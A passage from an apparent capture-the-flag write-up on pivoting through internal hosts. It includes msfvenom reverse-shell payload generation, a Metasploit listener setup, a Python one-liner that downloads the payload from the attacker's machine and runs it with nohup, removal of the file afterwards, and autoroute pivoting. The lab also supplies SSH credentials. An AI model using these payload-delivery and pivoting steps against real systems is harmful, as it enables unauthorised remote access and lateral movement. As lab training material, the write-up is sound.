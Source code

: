 ```bash

```
Since our challenge is to read `10.174.12.14` which belongs to the same subnet, we can request it from this box. If the box had curl or wget we could just fetch it instantly. The box had `python3` so I just launched it and used requests module to fetch the web page content:
```python
$ python3
Python 3.8.2 (default, Jul 16 2020, 14:00:26) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> requests.get('http://10.174.12.14').content
b'<html>\n    <head>\n\n    </head>\n    <body>\n        <h2>Your First Tunnel!</h2>\n        <p>You made your first tunnel, take this flag as a reward for your hard work ts{TheFirstTunnelIsTheEasiest}</p>\n    </body>\n</html>'
```


## # 3 SSH in tunnels
Instruction for this was "SSH through the bastion to the pivot. IP: 10.218.176.199 User: whistler Pass: cocktailparty".

Since its an internal IP we cannot connect to it directly from our host and the box we are currently in doesn't have SSH client. So it required creating proxy for tunneling our request to the 2nd host via the first host. This could easily be done with SSH port forwarding but I decided to use metasploit instead because I thought It may help me pivot in later stages easily. 

I first created an ELF binary using msfvenom to receive connection to my box:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<My-Machine-IP> LPORT=8080 -f elf > pay.bin
```
And started listening from msfconsole:
```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 0.0.0.0
msf5 exploit(multi/handler) > set LPORT 8080
msf5 exploit(multi/handler) > run
```
Next, ran `python3 -m http.server` from my box to fetch the binary over HTTP to the remote box. Fetched the binary with below python3 code from the remote box and ran it:
```python
$ cd /tmp
$ python3 -c 'import requests, shutil
def download_file(url,local_filename):
    with requests.get(url, stream=True) as r:
        with open(local_filename, "wb") as f:
            shutil.copyfileobj(r.raw, f)
download_file("http://<My-Machine-IP>:8000/pay.bin","rh0x01")
'
$ chmod +x rh0x01; nohup ./rh0x01 &
$ rm -rf rh0x01 nohup.out
```
Next, ran the `autoroute` module to add all the subnets of my compromised session so we can probe any internal ip addresses of that host directly from our host.
```bash
meterpreter > run post/multi/manage/autoroute

[!] SESSION may not be compatible with this module.
[*] Running module against 10.174.12.182
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.1.1.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 10.174.12.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 10.218.176.0/255.255.255.0 from host's routing table.
meterpreter > 
```